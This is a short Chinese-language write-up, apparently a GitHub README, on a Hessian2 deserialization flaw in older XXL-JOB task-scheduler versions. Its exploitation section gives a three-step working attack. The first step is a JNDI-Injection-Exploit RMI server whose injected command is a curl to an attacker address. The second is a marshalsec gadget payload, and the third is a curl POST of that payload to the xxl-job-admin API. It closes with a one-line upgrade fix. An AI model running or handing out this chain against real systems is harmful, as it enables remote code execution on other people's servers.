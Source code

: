 ### 一 漏洞描述
XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。  
现已开放源代码并接入多家公司线上产品线，开箱即用。  
xxl-job低版本api接口存在Hessian2反序列化，可以直接攻击调度中心.

### 二 漏洞利用
1.开启RMI服务
![img.png](img.png)
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 0.0.0.0 -C "curl [Address]:5555"`

使用最后一个

2.生成Payload
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://[RMI Address]:1099/stbjir >test.ser`

3.使用Payload
`curl -XPOST -H "Content-Type: x-application/hessian" --data-binary @test.ser http://localhost:8080/xxl-job-admin/api`

### 三 漏洞修复
升级>2.0.2

> 参考链接  
> https://www.cnblogs.com/liangzai6/p/14093411.html  
> https://xz.aliyun.com/t/8456  
> 官方文档: https://www.xuxueli.com/xxl-job/
